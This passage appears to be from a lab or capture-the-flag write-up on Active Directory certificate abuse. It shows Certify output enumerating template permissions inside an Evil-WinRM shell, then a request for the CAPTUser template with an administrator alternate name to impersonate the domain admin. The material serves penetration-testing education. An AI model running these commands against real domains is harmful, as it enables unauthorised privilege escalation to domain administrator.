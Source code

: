```
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CAPT\Certificate Authority AdminsS-1-5-21-541188004-2695660962-2805497550-1105
                                      CAPT\Domain Admins            S-1-5-21-541188004-2695660962-2805497550-512
                                      CAPT\Enterprise Admins        S-1-5-21-541188004-2695660962-2805497550-519
      Object Control Permissions
        Owner                       : CAPT\Administrator            S-1-5-21-541188004-2695660962-2805497550-500
        WriteOwner Principals       : CAPT\Administrator            S-1-5-21-541188004-2695660962-2805497550-500
                                      CAPT\Domain Admins            S-1-5-21-541188004-2695660962-2805497550-512
                                      CAPT\Enterprise Admins        S-1-5-21-541188004-2695660962-2805497550-519
        WriteDacl Principals        : CAPT\Administrator            S-1-5-21-541188004-2695660962-2805497550-500
                                      CAPT\Domain Admins            S-1-5-21-541188004-2695660962-2805497550-512
                                      CAPT\Enterprise Admins        S-1-5-21-541188004-2695660962-2805497550-519
        WriteProperty Principals    : CAPT\Administrator            S-1-5-21-541188004-2695660962-2805497550-500
                                      CAPT\Domain Admins            S-1-5-21-541188004-2695660962-2805497550-512
                                      CAPT\Enterprise Admins        S-1-5-21-541188004-2695660962-2805497550-519



Certify completed in 00:00:00.2955174
*Evil-WinRM* PS C:\Users\ca_admin\Documents> 
```
While searching for such templates, we discovered three: WebServer, SubCA, and CAPTUser. We lack the permissions to enroll in the first two, but the third one grants enroll permission in its DACL for 'CAPT\Certificate Authority Admins.' This essentially enables us to request a certificate on behalf of anyone, including the domain admins.

```
*Evil-WinRM* PS C:\Users\ca_admin\Documents> .\certify.exe request /ca:dc01.capt.org\capt-ca /template:CAPTUser /altname:administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Request a Certificates

[*] Current user context    : CAPT\ca_admin
[*] No subject name specified, using current context as subject.

[*] Template                : CAPTUser
```